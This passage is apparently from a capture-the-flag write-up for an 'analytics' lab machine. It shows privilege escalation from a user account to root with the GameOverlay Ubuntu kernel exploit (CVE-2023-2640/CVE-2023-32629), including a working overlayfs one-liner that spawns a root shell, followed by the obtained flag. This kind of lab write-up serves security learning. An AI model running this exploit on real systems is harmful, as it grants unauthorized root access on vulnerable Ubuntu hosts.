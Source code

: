 
# Root Flag
---

## From metalytics to root


### 0day Kernel Exploit (GameOverlay)

```bash
metalytics@analytics:~$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
```

I struggled a bit and did not find any ways to get root without the 0-day kernel exploit (By the time at 2023-07) : `GameOverlay Ubuntu Kernel Exploit LPE (0-day)`, it's a combination of **CVE-2023-2640** and **CVE-2023-32629** 

- Vulnerable Ubuntu kernel versions : `6.2.0`, `5.19.0`, `5.4.0`
- Invulnerable Ubuntu kernel versions : `5.15.0`

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Google : `linux 6.2.0-25 lpe`

> https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability

Saw this one liner from **@0xsyr0**'s security handbook a while ago

> https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#cve-2023-32629-cve-2023-2640-gameoverlay-ubuntu-kernel-exploit-lpe-0-day

Modify a bit to let it auto cleanup

```bash
export TD=$(mktemp -d) && cd $TD && unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);d=os.getenv("TD");os.system(f"rm -rf {d}");os.chdir("/root");os.system("/bin/sh")'
```

```bash

# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)

# cat /root/root.txt
645d9a7d91244c7d8581b188e7f1fa70
```

# Additional
---
